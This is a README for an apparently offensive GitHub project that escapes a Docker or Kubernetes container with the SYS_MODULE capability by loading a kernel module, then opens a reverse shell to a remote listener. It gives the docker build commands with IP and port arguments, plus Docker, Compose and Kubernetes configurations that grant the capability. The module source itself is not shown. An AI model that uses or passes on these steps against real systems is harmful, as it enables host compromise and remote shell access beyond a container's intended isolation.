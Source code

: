# Container Breakout Using Kernel Modules

Containers are extremely useful for rapidly deploying applications. Instead of running an entire operating system on the host (like a virtual machine), containers share the host resources. This makes escaping a container slightly easier than VM. Whether the managed platform is Docker or Kubernetes, this breakout will be effective. Part of the shared resources between container and the host OS, are the host's kernel modules. A privileged container can install, remove, and modify kernel modules on the host from within the container. This project exploits that capability to create a reverse from the local host to a remote server.

## Requirements
This breakout does not work in all use cases. **Two** things must be present for this exploit to function:
* The host system must be Linux
* The container must be started with **SYS_MODULE** capability enabled. The container can also be ran as "privileged".

# Usage

## Building the Image
By default, a simple build of the image will create a reverse shell on 127.0.0.1:4444. Be sure all piecies of the project are in the same directory of Dockerfile.
```
docker build -t imagename /path/to/Dockerfile
```

To specify an IP address and port insure that the image is built with the respective arguments.
```
docker build -t imagename --build-arg IP_ADDRESS=1.1.1.1 --build-arg PORT_NUMBER=23 /path/to/Dockerfile
```
## Running the image
The image can be ran with any container deployment platform either inline, or in the configuration file. Be sure to have a listener activated before running the container.

#### Docker
```
docker run --cap-add=SYS_MODULE imagename
```

#### Docker Compose
Include the following in the config:
```
cap_add:
- SYS_MODULE
```
#### Kubernetes
Include the following in the container specification:
```
spec:
    containers:
        image: imagename
        securityContext:
            capabilities:
                add:
                - SYS_MODULE
```

